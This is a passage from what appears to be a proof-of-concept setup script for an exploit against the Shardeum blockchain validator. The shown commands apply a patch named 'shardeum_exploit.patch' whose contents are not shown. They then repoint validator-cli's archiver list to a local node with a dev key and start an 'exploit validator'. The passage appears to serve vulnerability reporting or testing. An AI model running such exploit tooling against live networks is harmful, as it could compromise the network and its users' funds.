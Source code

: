 ```
" > shardeum_exploit.patch

git apply shardeum_exploit.patch

npm i

npm run prepare

# Install, patch, compile and run validator-cli
echo "\nSetting up validator-cli..."
cd ../validator-cli

# Removes default Archivers list and appends 127.0.0.1 with default dev public key
echo "diff --git a/src/config/default-network-config.ts b/src/config/default-network-config.ts
index 15e59d7..eea8506 100644
--- a/src/config/default-network-config.ts
+++ b/src/config/default-network-config.ts
@@ -4,30 +4,18 @@ export const defaultNetworkConfig = {
     p2p: {
       existingArchivers: [
         {
-          ip: '45.79.16.146',
+          ip: '127.0.0.1',
           port: 4000,
           publicKey:
-            '840e7b59a95d3c5f5044f4bc62ab9fa94bc107d391001141410983502e3cde63',
-        },
-        {
-          ip: '45.56.92.103',
-          port: 4000,
-          publicKey:
-            '2db7c949632d26b87d7e7a5a4ad41c306f63ee972655121a37c5e4f52b00a542',
-        },
-        {
-          ip: '170.187.134.16',
-          port: 4000,
-          publicKey:
-            '7af699dd711074eb96a8d1103e32b589e511613ebb0c6a789a9e8791b2b05f34',
+            '758b1c119412298802cd28dbfa394cdfeecc4074492d60844cc192d632d84de3',
         },
       ],
     },
     ip: {
       externalIp: '127.0.0.1',
-      externalPort: 9001,
+      externalPort: 9031,
       internalIp: '127.0.0.1',
-      internalPort: 10001,
+      internalPort: 10031,
     },
     reporting: {
       report: true,
" > validator-cli_exploit.patch

git apply validator-cli_exploit.patch

npm ci && npm link

chmod +x ~/.nvm/versions/node/v18.16.1/bin/operator-cli

operator-cli start # Or: pm2 start validator

echo "All done, exploit validator should be starting up!"
```